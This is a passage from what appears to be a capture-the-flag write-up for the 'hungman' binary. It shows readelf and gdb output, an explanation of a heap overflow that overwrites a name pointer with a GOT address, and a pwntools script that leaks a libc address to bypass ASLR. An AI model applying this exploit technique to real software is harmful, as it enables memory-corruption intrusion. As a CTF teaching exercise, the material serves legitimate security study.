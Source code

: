 ```
$	readelf -a hungman | grep strchr
000000602038  000500000007 R_X86_64_JUMP_SLO 0000000000000000 strchr@GLIBC_2.2.5 + 0
     5: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND strchr@GLIBC_2.2.5 (2)
```

So we can see that the address of the `strchr` function in the got table is 0x602038. Now before we do the overflow, we see that there is some data between the senf of our input and the pointer we are overwriting:

```
gdb-peda$ x/4g 0x603070
0x603070:	0x0000000031313131	0x0000000000000091
0x603080:	0x0000006500000320	0x0000000000603010
```

Remeber that the pointer we are overwriting is at `player_struct + 8`. Also recall that there is the length is stored at `player_struct + 4`. which we can see is at 0x603080. If we overwrite this data with zeroes, the program will crash. So we should include the piece of data in our overflow to avoid the crash. Lastly the last piece we will need for this exploit is a leaked address so we can bypass ASLR. Fortunately for us, the program will try to print the player's name using the pointer we overwrote, so it will end up printing an address that we can use.

Here is the code to do so:
```
#import pwntools and start the ELF
from pwn import *
target = process("./hungman")

#Send the first name
name0 = "0"*100
target.sendline(name0)

#Win the game and change the name
print target.recvline()
target.sendline("qwertyuioplkjhgfdsazxcvbnm")
print target.recvuntil("High score! change name?")
target.sendline("y")

#Overwrite the pointer with the new name
name1 = "1"*112 + p64(0x0000006500000320) + p64(0x602038)
target.sendline(name1)

#Store the input of the elf trying to print the player's name and filter out the leaked address
leak = target.recvuntil("Continue?")
leak = leak.replace("Highest player: ", "")
leak = leak.replace(" score: 800", "")
leak = leak.replace("Continue?", "")
leak = leak.replace("\n", "")
leak = u64(leak + "\x00\x00")

#Print the leak
print "The leak is: " + hex(leak)

#Hand the process off to gdb, and start an interactive shell
gdb.attach(target)
target.interactive()
```
